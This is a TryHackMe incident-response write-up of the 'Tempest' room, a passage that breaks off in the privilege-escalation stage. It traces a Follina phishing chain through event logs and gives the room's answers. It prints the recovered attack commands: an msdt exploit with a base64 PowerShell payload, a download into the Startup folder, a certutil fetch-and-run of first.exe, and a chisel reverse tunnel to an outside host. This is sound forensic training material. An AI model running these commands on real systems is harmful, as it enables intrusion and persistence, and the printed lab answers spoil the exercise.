# 🔍 Tempest — Full Attack Chain Investigation

## Investigation Summary
| Field | Details |
|---|---|
| **Platform** | TryHackMe |
| **Category** | Incident Response / Attack Chain Analysis |
| **Tools Used** | EvtxEcmd, Timeline Explorer, Brim, VirusTotal, CyberChef |
| **MITRE ATT&CK** | T1566.001, T1203, T1059.001, T1105, T1071.001, T1572, T1548.002, T1136.001, T1543.003 |
| **Difficulty** | Hard |

---

## Scenario
As an Incident Responder, you are handed a **CRITICAL** severity alert triaged by
a SOC analyst. The intrusion started from a malicious document downloaded via
Chrome. Your job is to trace the full attack chain — from initial access all the
way to persistence and privilege escalation.

**Key artifacts provided:**
- Windows Event Logs (EVTX)
- Network/Brim logs

---

## Tooling Setup — EvtxEcmd & Timeline Explorer

Before diving into the investigation, the EVTX logs need to be parsed into CSV
format using **EvtxEcmd**, then fed into **Timeline Explorer** for filtering and
navigation.



By using this command, we are able to determine the SHA256 of the parsed files.



**Hash 1: CB3A1E6ACFB246F256FBFEFDB6F494941AA30A5A7C3F5258C3E63CFA27A23DC6**

We just repeated the same command and replaced the file name for hashes 2 and 3.




**Hash 2: 665DC3519C2C235188201B5A8594FEA205C3BCBC75193363B87D2837ACA3C91F**
**Hash 3: D0279D5292BC5B25595115032820C978838678F4333B725998CFE9253E186D60**

---

## Stage 1 — Initial Access



### Identifying the Malicious Document

We know the malicious document has a **.doc** extension and was downloaded via
**chrome.exe**. We'll use Timeline Explorer to search for any logs that contain
interactions with **.doc** extensions.



We can see that there are 2 significant documents with **.doc** extensions. But
since we know the malicious document was downloaded via **chrome.exe**, that
leads us directly to **free_magicules.doc**.

**Answer: free_magicules.doc**

---

### Identifying the Hostname and User

Examining the log entry gives us the computer name and the user involved.






**Answer: benimaru-TEMPEST**

---

### Process ID of the Malicious Document

Just by looking at the logs we can see that the malicious document has been
opened. Scrolling through the row gives us ProcessID: 496.




**Answer: 496**

---

### DNS Query from the Malicious Document

We take note of the record time **2022-06-20 17:13:14** from the previous
question and use that to filter the timeline. There's a lot of noise but one
entry stands out — a DNS query made during execution.



**Answer: 184.87.204.144**

---

### Malicious Payload Executed by the Document

Since the Process ID of the malicious document is 496, the PPID of the payload
it spawned should also be 496. Filtering for that gives us the full command:

```
C:\Windows\SysWOW64\msdt.exe ms-msdt:/id PCWDiagnostic /skip force /param
"IT_RebrowseForFile=? IT_LaunchMethod=ContextMenu IT_BrowseForFile=
$(Invoke-Expression($(Invoke-Expression('[System.Text.Encoding]'+[char]58+
[char]58+'UTF8.GetString([System.Convert]'+[char]58+[char]58+
'FromBase64String('+[char]34+'JGFwcD1bRW52aXJvbm1lbnRdOjpHZXRGb2xkZXJQYXRo
KCdBcHBsaWNhdGlvbkRhdGEnKTtjZCAiJGFwcFxNaWNyb3NvZnRcV2luZG93c1xTdGFydCBN
ZW51XFByb2dyYW1zXFN0YXJ0dXAiOyBpd3IgaHR0cDovL3BoaXNodGVhbS54eXovMDJkY2Yw
Ny91cGRhdGUuemlwIC1vdXRmaWxlIHVwZGF0ZS56aXA7IEV4cGFuZC1BcmNoaXZlIC5cdXBk
YXRlLnppcCAtRGVzdGluYXRpb25QYXRoIC47IHJtIHVwZGF0ZS56aXA7Cg=='+[char]34+
'))'))))i/../../../../../../../../../../../../../../Windows/System32/mpsigstub.exe"
```



**Base64 Payload:**
```
JGFwcD1bRW52aXJvbm1lbnRdOjpHZXRGb2xkZXJQYXRoKCdBcHBsaWNhdGlvbkRhdGEnKTtj
ZCAiJGFwcFxNaWNyb3NvZnRcV2luZG93c1xTdGFydCBNZW51XFByb2dyYW1zXFN0YXJ0dXAi
OyBpd3IgaHR0cDovL3BoaXNodGVhbS54eXovMDJkY2YwNy91cGRhdGUuemlwIC1vdXRmaWxl
IHVwZGF0ZS56aXA7IEV4cGFuZC1BcmNoaXZlIC5cdXBkYXRlLnppcCAtRGVzdGluYXRpb25Q
YXRoIC47IHJtIHVwZGF0ZS56aXA7Cg==
```



**CVE: [CVE-2022-30190](https://www.cve.org/CVERecord?id=CVE-2022-30190) (Follina)**



---

## Stage 2 — Execution & Staging



### Decoding the Base64 Payload

Decoding the base64 string from Stage 1 reveals the full PowerShell command:

```powershell
$app=[Environment]::GetFolderPath('ApplicationData');
cd "$app\Microsoft\Windows\Start Menu\Programs\Startup";
iwr http://phishteam.xyz/02dcf07/update.zip -outfile update.zip;
Expand-Archive .\update.zip -DestinationPath .;
rm update.zip;
```

Filtering for **update.zip** gives us the full drop path.



**Answer: C:\Users\benimaru\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\update.zip**

---

### PowerShell Autostart Execution

Filtering for Process Creation and user **benimaru** gives us 80 logs. Since
this is an autostart, we can also filter for **explorer.exe** as the parent.
We notice a PowerShell execution standing out immediately:

```powershell
"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -w hidden -noni
certutil -urlcache -split -f 'http://phishteam.xyz/02dcf07/first.exe'
C:\Users\Public\Downloads\first.exe;
C:\Users\Public\Downloads\first.exe
```



---

### Hash of first.exe

Filtering for **first.exe** in the executable info gives us the file details.







**Answer: CE278CA242AA2023A4FE04067B0A32FBD3CA1599746C160949868FFC7FC3D7D8**

---

### C2 Beacon

Filtering for Network Connection, Process Creation, and DNSEvent gives us the
domain. We only got the domain though — to get the port, we know it's resolving
to IP `167.71.222.162`.





Combining both gives us the full C2 address.

**Answer: resolvecyber.xyz:80**

---

## Stage 3 — C2 Communication Analysis



### Phishing Domain

We know the document was downloaded from a certain domain. Searching for it
gives us the full download URL.





**Answer: http://phishteam.xyz/02dcf07/index.html**

---

### C2 Encoding

For the C2 connection, we know the attacker is connecting through resolvecyber.
To make sure, I placed that random string of characters into CyberChef and
confirmed the encoding used.





**Answer: Base64**

---

### C2 Command Prefix

The start of every command is **q**.



**Answer: q**

---

### C2 URI Pattern

Looking at the traffic, we can see how it always connects to the same URI path.





**Answer: /9ab62b5**

---

### HTTP Method

Based on the previous screenshot, we can see the HTTP method used.



**Answer: GET**

---

### C2 Framework

Cross-referencing the binary and its behavior identifies the C2 framework.




**Answer: Nim**

---

## Stage 4 — Lateral Movement Preparation



### Internal Hostname Discovery

There are lots of base64 logs to unpack here. Through browsing each log and
decoding them, we come across the internal hostname.





**Answer: infernotempest**

---

### Open Port for Lateral Movement

After a lot of exploring and looking at the base64 commands, we finally see the
port scan results. Among the open ports, **5985** stands out.







**Answer: 5985 (WinRM)**

---

### Tunneling Command

While exploring the commands, we spot the tunneling binary being executed.





**Answer: "C:\Users\benimaru\Downloads\ch.exe" client 167.71.199.191:8080 R:socks**

---

### Tunneling Binary Hash and Name

Looking at the row details gives us the hash. Verifying on VirusTotal confirms
the tool name.





**Answer: 8A99353662CCAE117D2BB22EFD8C43D7169060450BE413AF763E8AD7522D2451**





**Answer: chisel**

---

### Lateral Movement Protocol

From the previous question we already knew the port and what it enables.



**Answer: WinRM**

---

## Stage 5 — Privilege Escalation



### Downloaded Privilege Escalation Binary

We know the actor is using PowerShell to download their payload so let's filter
for that. There are 2 downloads here — one of them is the privilege escalation
